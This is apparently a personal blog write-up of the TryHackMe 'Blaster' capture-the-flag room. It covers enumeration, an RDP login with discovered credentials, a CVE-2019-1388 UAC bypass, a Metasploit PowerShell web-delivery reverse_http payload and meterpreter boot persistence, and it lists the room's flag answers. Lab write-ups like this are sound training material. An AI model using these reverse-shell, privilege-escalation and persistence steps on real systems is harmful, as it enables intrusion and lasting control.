 ```yaml
---
title: TryHackMe - Blaster
description: A blast from the past!
date: '2021-03-14 09:28:24 +0530'
categories: [Security, TryHackMe]
tags: [tryhackme, ctf, security, windows]
published: true
img_path: /assets/
image: images/thm-blaster/thm-blaster-banner.png
---
```


Cover Image by [BiZkettE1](https://www.freepik.com/free-vector/modern-business-background-with-geometric-shapes_5287944.htm) on Freepik

## Task 1: Mission Start!

1. **Deploy the machine! This is a Windows box so give it a few minutes (3-5 at max) to come online**

> No answer required

## Task 2: Activate Forward Scanners and Launch Proton Torpedoes

1. **How many ports are open on our target system?**

![Nmap Scan Results](images/thm-blaster/nmap-scan-results.png)

> 2

1. **Looks like there's a web server running, what is the title of the page we discover when browsing?**

![IIS Landing Page](images/thm-blaster/iis-landing-page.png)

> IIS Windows Server

3. **Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?**

![Gobuster Results](images/thm-blaster/gobuster-results.png)

### Command Options

* **dir:** Enumerate directories and files
* **u:** Target URL
* **-x:** File formats to enumerate
* **-w:** Wordlist to use for enumeration
* **-t:** No. of threads

> /retro

4. **Navigate to our discovered hidden directory, what potential username do we discover?**

![Web App Landing Page|550](images/thm-blaster/webapp-landing-page.png)

> wade

5. **Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?**

![Comment on Post|500](images/thm-blaster/webapp-comment.png)

> parzival

6. **Log into the machine via Microsoft Remote Desktop (MSRDP) and read user.txt. What are its contents?**

```
xfreerdp +clipboard /u:wade /p:parzival /v:<machine-ip>
```

![Access Target with RDP|500](images/thm-blaster/target-access-rdp.png)

> THM{HACK_PLAYER_ONE}

## Task 3: Breaching the Control Room

1. **When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?**

![Browser History](images/thm-blaster/browser-history.png)

> CVE-2019-1388

**Note:** As of 14/03/2021 there is a bug in the machine due to which the history in the browser is missing. The workaround, for now, is just to google for the vulnerability and continue with the rest of the challenge

1. **Looks like an executable file is necessary for the exploitation of this vulnerability and the user didn't clean up very well after testing it. What is the name of this executable?**

![Executable Filename|500](images/thm-blaster/executable-file.png)

> hhupd

3. **Research vulnerability and how to exploit it. Exploit it now to gain an elevated terminal!**

On searching online we come across two links that show us how we can use the executable file to exploit the vulnerability

[GitHub - jas502n/CVE-2019-1388: CVE-2019-1388 UAC提权](https://github.com/jas502n/CVE-2019-1388)

> No answer required

1. **Now that we've spawned a terminal, let's go ahead and run the command 'whoami'. What is the output of running this?**

![User Privilege Level](images/thm-blaster/user-privilege.png)

> NT AUTHORITY\SYSTEM

5. **Now that we've confirmed that we have an elevated prompt, read the contents of root.txt on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!**

![Flag File Content](images/thm-blaster/flag-file.png)

> THM{COIN_OPERATED_EXPLOITATION}

## Task 4: Adoption into the Collective

1. **Return to your attacker machine for this next bit. Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.**

![Metasploit Exploit](images/thm-blaster/metasploit-exploit.png)

> No answer required

2. **First, let's set the target to PSH (PowerShell). Which target number is PSH?**

![Setting Exploit Options|380](images/thm-blaster/exploit-options.png)

> 2

3. **After setting your payload, set your lhost and lport accordingly such that you know which port the MSF web server is going to run on and that it'll be running on the TryHackMe network.**

![Executing Exploit on Target](images/thm-blaster/running-exploit.png)

> No answer required

**Note:** The value for LHOST can be found by running "ip a show tun0" and looking under Inet

4. **Finally, let's set our payload. In this case, we'll be using a simple reverse HTTP payload. Do this now with the command: 'set payload windows/meterpreter/reverse_http'. Following this, launch the attack as a job with the command 'run -j'.**

> No answer required

5. **Return to the terminal we spawned with our exploit. In this terminal, paste the command output by Metasploit after the job was launched. In this case, I've found it particularly helpful to host a simple Python web server (python3 -m http.server) and host the command in a text file as copying and pasting between the machines won't always work. Once you've run this command, return to our attacker machine and note that our reverse shell has spawned.**

![Generate PS Payload|580](images/thm-blaster/generate-payload.png)

![Sending Payload to Target](images/thm-blaster/sending-payload.png)

> No answer required

6. **Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to set up persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup.**

![Setup Persistence on Target](images/thm-blaster/setup-persistence.png)

> run persistence -X

7. **Run this command now with options that allow it to connect back to your host machine should the system reboot. Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice. Congrats, you've now gained full control over the remote host and have established persistence for further operations!**

> No answer required

That's all. Happy Hacking :)